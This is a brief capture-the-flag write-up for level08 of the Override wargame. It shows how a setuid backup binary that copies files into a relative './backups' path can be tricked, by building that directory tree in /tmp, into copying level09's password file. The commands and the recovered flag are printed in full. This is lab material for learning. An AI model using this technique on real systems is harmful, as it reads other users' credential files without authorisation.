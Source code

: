 # Override - level08

We've started executing the binary to see what was asking.
We can also see that there is an empty folder named backup.

It asked for filename.

```
./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```

So we've tried to give filename.

```
./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We've observed that it tried to open a relative path starting with "./backups".
The problem is that the backup folder in our directory is owned by level09 so we can't modify it.

We cd to the only folder we can write to: /tmp. We created a backups folder in /tmp and a test file.

Executing level08 in tmp with test as parameter we've seen that the program copied test in our backups.

```
~level08 test

ls backups/
test
```

So we've created the parent folder, changed test with the level09 directory containing the .pass file
and we got the flag.

```
mkdir -p ./backups/home/users/level09

~level08/level08 ~level09/.pass

cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```